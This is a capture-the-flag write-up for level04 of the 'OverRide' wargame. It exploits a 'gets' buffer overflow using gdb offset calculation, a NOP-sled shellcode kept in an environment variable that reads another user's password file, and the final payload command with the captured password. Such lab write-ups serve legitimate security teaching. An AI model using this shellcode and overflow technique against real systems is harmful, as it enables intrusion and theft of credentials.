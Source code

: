 # level04

The program uses `gets` function to read stdin without checking size.

## Step 1. Calculate offset to overwrite `eip`
```
level04@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" level04
Dump of assembler code for function main:
   0x080486c8 <+0>:		push   ebp
   0x080486c9 <+1>:		mov    ebp,esp
   0x080486cb <+3>:		push   edi
   0x080486cc <+4>:		push   ebx
   0x080486cd <+5>:		and    esp,0xfffffff0
   0x080486d0 <+8>:		sub    esp,0xb0
[...]
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>
```
According to the disassembly, offset is `0xb0 - 0x20 + 0x8(padding) + 0x4(ebp) = 0x9c(156)`.

## Step 2. Store the shellcode in the environment variable
```c
#include <stdio.h>

int main(void)
{
	printf("0x%08x\n", getenv("SHELLCODE"));
}
```
```
level04@OverRide:~$ export SHELLCODE=`perl -e 'print "\x90"x100 . "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
level04@OverRide:~$ gcc -m32 /tmp/getenv.c -o /tmp/getenv
level04@OverRide:~$ /tmp/getenv
0xffffd845
```
We put the shellcode in the environment variable and get the address by running a little C program.

## Step 3. Build the payload
```
level04@OverRide:~$ perl -e 'print "A"x156 . pack("V", 0xffffd845)' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
